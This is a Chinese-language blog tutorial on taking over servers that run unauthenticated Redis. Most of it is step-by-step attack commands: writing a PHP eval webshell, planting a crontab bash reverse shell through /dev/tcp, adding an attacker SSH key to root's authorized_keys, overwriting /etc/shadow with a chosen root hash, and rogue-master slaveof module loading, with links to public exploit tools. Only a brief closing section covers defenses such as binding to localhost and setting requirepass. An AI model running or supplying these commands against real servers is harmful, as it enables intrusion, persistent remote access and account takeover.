 ```yaml
---
layout:     post
title:      Redis相关
date:       2020-05-20
author:     lceCr4m
header-img: img/16.jpg
catalog: true
tags:
    - Redis
---
```

> 本文主要是关于Redis的相关内容。~~520的千反田~~

# 0x00 前言
主要写Redistribution未授权访问的相关内容，包括：ssrf-redis，redis-getshell，redis-crontab，redis-publickey，redis-shadow，redis-slaveof。

# 0x01 Redis未授权访问介绍
Redis默认情况下，会绑定在0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源ip访问等，这样将会将Redis服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问Redis以及读取Redis的数据。攻击者在未授权访问Redis的情况下，利用Redis自身的提供的config命令，可以进行写文件操作，造成相关漏洞。  
上述总结：
```
1.redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网。
2.没有设置密码认证（一般为空），可以免密码远程登录redis服务。 
```
# 0x02 SSRF-Redis
主要是利用在外网的主机上存在ssrf，之后通过gopher协议，向未授权访问的内网中的redis写入shell。在之前的文章中有讲过。
# 0x03 Redis-GetShell
条件：  
1. 靶机redis未授权，在攻击机上能用redis-cli连。  
1. 开了web服务器，并且知道路径（如利用phpinfo，或者误爆路经），还需要具有文件写权。

操作：
```
redis-cli -h 192.168.0.144
连接靶机redis后：
靶机ip:6379>config set dir /var/www/
靶机ip:6379>config set dbfilename shell.php
靶机ip:6379>set x "<?php @eval($_POST['hack']);?>"
靶机ip:6379>save
```
# 0x04 Redis-Crontab
介绍：  
crotab是linux下执行计划任务的工具。通过写入crontab实现反弹shell。

条件：
1. 能够回连。
1. 权限足够。
2. redis未授权。

操作：

```
nc -lvnp 4444
redis-cli -h 192.168.0.144
连接后：
靶机ip:6379>set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.0.144/4444 0>&1\n\n"
靶机ip:6379>config set dir /var/spool/cron
靶机ip:6379>config set dbfilename root
靶机ip:6379>save
```
# 0x05 Redis-PublicKey
介绍：  
通过写入自己的ssh公钥，以便于使用自己的私钥进行登录目标靶机。

条件：
1. 靶机开启ssh服务（如22端口）。
1. 权限足够。
2. redis未授权

操作：

```
ssh公钥一般保存在/root/.ssh
首先在攻击机生成ssh公私钥：id_rsa，id_rsa.pub
之后将公钥写入靶机：两种方式
1.连接靶机redis后：
靶机ip:6379>config set dir /root/.ssh
靶机ip:6379>config set dbfilename authorized_keys
靶机ip:6379>set x "publickey"
靶机ip:6379>save
2.在攻击机上将生成的公钥写入key.txt，并写入redis：
cat key.txt | redis-cli -h 192.168.0.144 -x set crack
之后连接靶机redis：
redis-cli -h 192.168.0.144
得到redis备份的路径：
CONFIG GET dir
更改redis备份路径为ssh公钥存放目录（一般默认为/root/.ssh）：
靶机ip:6379>config set dir /root/.ssh
设置上传公钥的备份文件名字为authorized_keys：
config set dbfilename authorized_keys
查看有没有authorized_keys文件，若有则成功

写入公钥后，可以在攻击机上使用ssh的私钥登录靶机：
ssh -i id_rsa root@192.168.0.144
```
# 0x06 Redis-Shadow
介绍1：  
通过写靶机的shadow修改登录密码。

条件：
1. 未授权
2. 有写shadow权限

介绍2：  
/etc/passwd文件允许所有用户读取，易导致用户密码泄露，因此Linux系统将用户的密码信息从/etc/passwd文件中分离出来，并单独放到/etc/shadow中，只有root用户拥有读权限，其他用户没有任何权限，这样就保证了用户密码的安全性。  
字段含义：用户名:加密密码:最后一次修改时间:最小修改时间间隔:密码有效期:密码需要变更前的警告天数:密码过期后的宽限时间:账号失效时间:保留字段

操作：

```
连接redis后：
config set dir /etc
config set dbfilename shadow
set xx "\n\nroot:$6$ZPEUqn3oQNFJNomM$5WKlngU6M9dP2i2CPhVxA7.0b0zo60u4blq.Uaf.xTVOyXP3H/.W00/MROiiuGlKTaNrV1O3iKnKD7IDfVLoh.:18373:0:99999:7:::\n\n"
save
切记：此方式比较危险
```
# 0x07 Redis-Slaveof
介绍：  
redis保存的数据并不是简单的json或者是csv，所以其他方式写入的文件都会有大量的无用数据，之前写入的方式主要利用了crontab，ssh key，webshell这样的文件都有一定容错性，再加上crontab和ssh服务可以说是服务器的标准的服务，所以比较通用。  
但是随着技术的进步，对于docker来说，一个单一的容器中不会有除redis以外的任何服务存在，包括ssh和crontab，再加上权限的严格控制，只靠写文件就很难再getshell。

redis主从复制：  
redis为了备份和提高性能，有一台主服务器，n台从服务器，从服务器会实时备份主服务器数据。

redis外部拓展：  
在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以实现在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。

过程：
1. 本地编译好外部扩展即so文件
1. 把so文件转码存入本地redis数据库
1. 到目标服务器上设置主从关系，主服务器指定我们的本地机子
1. 待同步后，设置备份路径和备份文件名（exp.so）
1. 利用fullresync进行同步，备份数据库
1. 然后加载备份数据库
1. 然后通过redis执行命令反弹shell

工具：  
https://github.com/n0b0dyCN/redis-rogue-server  =>  exp.so文件  
https://github.com/Ridter/redis-rce  =>  redis-rce.py文件/redis-rogue-server.py文件

# 0x08 防御
1.通过绑定ip进行控制，redis.conf文件找到配置进行修改。
```
# If you want you can bind a single interface, if the bind option is not
# specified all the interfaces will listen for incoming connections.
#
# bind 127.0.0.1
```

2.设置密码，以提供远程登陆。找到redis.conf配置文件，找到requirepass设置密码后重启redis。设置密码后可以在登录时输入，也可以登陆后输入。不输入密码可以登录但无法执行命令。之后可以通过config get requirepass查看密码。
```
redis.conf内容修改处：
requirepass yourpassword
```


















